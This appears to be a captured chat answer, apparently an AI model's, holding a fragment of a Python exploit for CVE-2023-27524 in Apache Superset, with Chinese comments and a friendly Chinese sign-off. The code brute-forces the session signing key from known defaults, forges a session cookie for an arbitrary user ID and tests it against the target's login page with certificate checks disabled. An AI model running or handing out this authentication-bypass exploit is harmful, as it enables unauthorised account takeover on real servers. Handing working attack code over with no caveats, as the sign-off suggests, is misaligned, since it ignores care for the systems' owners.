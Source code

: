 ```python
            cracked = session.verify(session_cookie, k)
            if cracked:
                break

        if not cracked:
            print("Failed to crack session cookie")
            return

        print(f"Vulnerable to CVE-2023-27524 - Using default SECRET_KEY: {k}")

        # 根据用户输入的ID参数(如果不是整数，则原样使用) ，用flask_unsign模块的sign函数来伪造一个新的session cookie，并打印出来。
        try:
            user_id = int(args.id)
        except:
            user_id = args.id

        forged_cookie = session.sign({"_user_id": user_id, "user_id": user_id}, k)
        print(f"Forged session cookie for user {user_id}: {forged_cookie}")

        # 如果用户输入了验证登录的参数，则尝试使用伪造的session cookie访问目标URL的登录页面，并检查返回的状态码是否为302(表示重定向) 。如果是，则打印出成功验证登录的信息。如果不是，则打印出失败验证登录的信息，并建议重新检查用户ID。如果发生异常，则打印出异常信息。
        if args.validate:
            validated = False
            try:
                headers["Cookie"] = f"session={forged_cookie}"
                print(
                    f"Sleeping {args.timeout} seconds before using forged cookie to account for time drift..."
                )
                sleep(args.timeout)
                resp = requests.get(
                    u, headers=headers, verify=False, timeout=30, allow_redirects=False
                )
                if resp.status_code == 302:
                    print(
                        f"Got 302 on login, forged cookie appears to have been accepted"
                    )
                    validated = True
                else:
                    print(
                        f"Got status code {resp.status_code} on login instead of expected redirect 302. Forged cookie does not appear to be valid. Re-check user id."
                    )
            except Exception as e_inner:
                print(
                    f"Exception occurred while validating login: {e_inner}"
                )
```

希望这些信息对您有帮助。如果您还有其他问题，欢迎继续与我交流。😊
